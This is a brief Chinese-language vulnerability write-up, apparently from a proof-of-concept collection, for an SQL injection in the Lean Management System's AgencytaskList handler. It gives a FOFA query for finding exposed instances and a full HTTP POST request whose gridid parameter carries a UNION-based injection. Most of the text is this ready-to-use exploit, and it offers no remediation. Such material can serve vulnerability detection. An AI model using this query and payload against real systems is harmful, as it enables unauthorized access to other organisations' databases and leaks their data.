 **fofa**

```
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```

**一、漏洞简述**

精益管理系统（Lean Management System）是一种以精益思维为基础的管理方法，旨在通过持续改进和团队合作，提高组织的效率和质量，降低成本和浪费。其接口LVS.Web.AgencytaskList,LVS.Web.ashx存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。



**二、漏洞检测poc**

```yaml
POST /ajax/LVS.Web.AgencytaskList,LVS.Web.ashx?_method=GetColumnIndex&_session=r HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Content-Length: 58

src=AgencytaskList
gridid=1' UNION ALL SELECT @@VERSION--
```

